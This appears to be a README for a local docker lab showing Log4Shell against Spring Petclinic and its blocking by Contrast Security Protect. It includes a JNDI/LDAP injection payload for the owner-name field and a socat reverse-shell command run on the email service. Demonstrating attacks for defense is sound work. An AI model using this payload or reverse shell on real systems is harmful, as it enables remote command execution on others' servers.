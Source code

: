 ## Setup

## Contrast Configuration

Before Starting up, you will need to configure the agent, by setting the credentials in the contrast_security.yaml. DO NOT CHECK THIS IN TO GIT.
During the docker build process it will download the latest agent version.
Whether Assess or Protect are enabled are controlled by environment variables in the docker-compose.yaml file. This allows you to quickly enable/disable Assess/Protect without rebuilding the docker images.
Just change the values and restart ( docker-compose up ).


Run the services up using docker ( from the root of the project )
```docker-compose up```

Once up, login to the log4shell service and open socat using the following command
```docker exec -it spring-petclinic-log4shell-service-1 bash -c "/ListenForShell.sh"```

Then open a browser and access Petclinic
http://localhost:8080
Login as admin : password
Add a new Owner and add the following to the first or last name
```${jndi:ldap://log4shell-service:1389/jdk8}```
Once the owner is saved, you will be able to execute commands from the log4shell terminal.
The commands are run on the EmailService OS.



## What Is Happening

When you send the payload to the Petclinic application via the Owner firstname/lastname the following occurs.
* Petclinic sends the Owner details to the Email Service
* The Email Service logs that information using a vulnerable version of log4j
* Log4j initiates a JNDI/LDAP connection to the Log4Shell service and downloads a class
* That class is executed within the Email Service, which in turn executes the following commmand on the underlying OS of the Email Service
  * "socat TCP4:log4shell-service:8082 EXEC:/bin/bash"
* This, uses Socat create a reverse shell which calls back to the Log4Shell Service, allowing the terminal in Log4Shell to execute arbitrary commands on the Email Service and see the results.

## How to Block
* This can be blocked by Protect by setting to BLOCK in the Email Service the log4shell or JNDI rules.





